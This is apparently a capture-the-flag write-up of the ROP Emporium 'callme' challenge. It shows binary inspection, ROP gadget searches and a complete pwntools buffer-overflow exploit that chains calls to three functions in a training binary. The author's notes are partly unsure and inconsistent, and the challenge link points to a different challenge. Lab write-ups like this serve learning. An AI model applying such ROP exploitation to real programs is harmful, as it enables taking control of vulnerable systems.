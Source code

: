 # Challenge 3 - callme
## Description
This is the third of the ROP Emporium challenges. [callme](https://ropemporium.com/challenge/split.html)

Chain calls to multiple imported methods with specific arguments and see how the differences between 64 & 32 bit calling conventions affect your ROP chain.

Let's inspect the binary
```
mfumega@pwn-boy:/pwn-boy$ file callme
callme: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=e8e49880bdcaeb9012c6de5f8002c72d8827ea4c, not stripped
mfumega@pwn-boy:/pwn-boy$
mfumega@pwn-boy:/pwn-boy$ pwn checksec callme
[*] '/pwn-boy/callme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    RUNPATH:    b'.'
    Stripped:   No
mfumega@pwn-boy:/pwn-boy$
```

And now with this in mind, we run it and prompts for our input just like the challenges before. 

If we look at the functions of the binary, we now find 3 functions called `callme_one, callme_two and callme_three`, and based on the information that the page gave us, we know that we must call this functions in the above order, with the arguments `0xdeadbeef, 0xcafebabe, 0xd00df00d`. Like this:
`callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d)`.

From the previous challenge we know how to pass an argument to a function, we did it with RDI, and we already saw that the second and third arguments are passed with "RSI" and "RDX". 

Let's see which gadgets we have on the binary and filter by "pop rdi" to avoid a giant gadgets list.

```
mfumega@pwn-boy:/pwn-boy$ ropper --file callme --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: callme
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret;
0x00000000004009a3: pop rdi; ret;

mfumega@pwn-boy:/pwn-boy$
```

Ok, so we actually have the one that we want. Let's write down all the addresses we have until now. 

I wrote the exploit using that gadget but didn't work, so instead I've used this gadgets:
```
pop_rdi = 0x4009a3
pop_rsi_rdx = 0x40093d
```

Also I have to pass the arguments directly in little endian. *I need to look this understand it better.*

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'
binary_path = '/pwn-boy/callme'
p = process(binary_path)
e = p.elf

# Addresses
callme_one = e.plt['callme_one']
callme_two = e.plt['callme_two']
callme_three = e.plt['callme_three']
pop_rdi = 0x4009a3
pop_rsi_rdx = 0x40093d

offset = 40

payload = b'A' * offset
payload += p64(pop_rdi) +  b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_one)
payload += p64(pop_rdi) + b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_two)
payload += p64(pop_rdi) + b'\xef\xbe\xad\xde\xef\xbe\xad\xde'
payload += p64(pop_rsi_rdx)
payload += b'\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + b'\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0'
payload += p64(callme_three)

p.send(payload)
response = p.recvall()
print(response.decode())
```

This is the final exploit to get the flag. See you on the next one! 

> I think it might be due to some stack alignment issue. I'll review it soon and upload it once I spot the mistake!! 
